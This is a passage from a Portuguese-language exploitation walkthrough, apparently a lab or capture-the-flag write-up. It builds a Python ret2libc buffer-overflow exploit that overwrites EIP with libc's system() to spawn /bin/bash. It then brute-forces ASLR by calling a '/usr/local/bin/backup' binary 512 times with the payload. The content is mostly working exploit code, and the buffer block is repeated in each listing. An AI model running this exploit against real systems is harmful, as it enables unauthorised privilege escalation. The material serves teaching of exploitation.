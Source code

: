 Beleza, exploit já ta criado, agora vamos fazer com que ele seja recebido corretamente pela aplicação, o que eu quero que aconteça é que a chamada system() esteja no EIP, que possa executar o /bin/bash, então vamos acrescentar o buffer o payload

exploit.py
```
from subprocess import call
import struct

libc_base_addr = 0xf7538000

system_off      = 0x0003a940
exit_off        = 0x0002e7d0
arg_off         = 0x0015900b

system_addr = struct.pack("<I",libc_base_addr+system_off)
exit_addr = struct.pack("<I",libc_base_addr+exit_off)
arg_addr = struct.pack("<I",libc_base_addr+arg_off)

buf = "A" * 512
buf += system_addr
buf += exit_addr
buf += arg_addr

buf = "A" * 512
buf += system_addr
buf += exit_addr
buf += arg_addr
```

Pronto, quase lá, agora não sei se você se lembra, mas temos o ASLR habilitado, então esse endereço da libc nem sempre vai ser o mesmo, temos que fazer um loop, pra alguma hora ser o que está setado como base do payload, então vamos fazer o loop

exploit.py
```
from subprocess import call
import struct

libc_base_addr = 0xf7538000

system_off      = 0x0003a940
exit_off        = 0x0002e7d0
arg_off         = 0x0015900b

system_addr = struct.pack("<I",libc_base_addr+system_off)
exit_addr = struct.pack("<I",libc_base_addr+exit_off)
arg_addr = struct.pack("<I",libc_base_addr+arg_off)

buf = "A" * 512
buf += system_addr
buf += exit_addr
buf += arg_addr

buf = "A" * 512
buf += system_addr
buf += exit_addr
buf += arg_addr

i = 0
while (i < 512):
        print "Tentativa %s" %i
        i += 1
        ret = call(["/usr/local/bin/backup","teste","45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474",buf])
```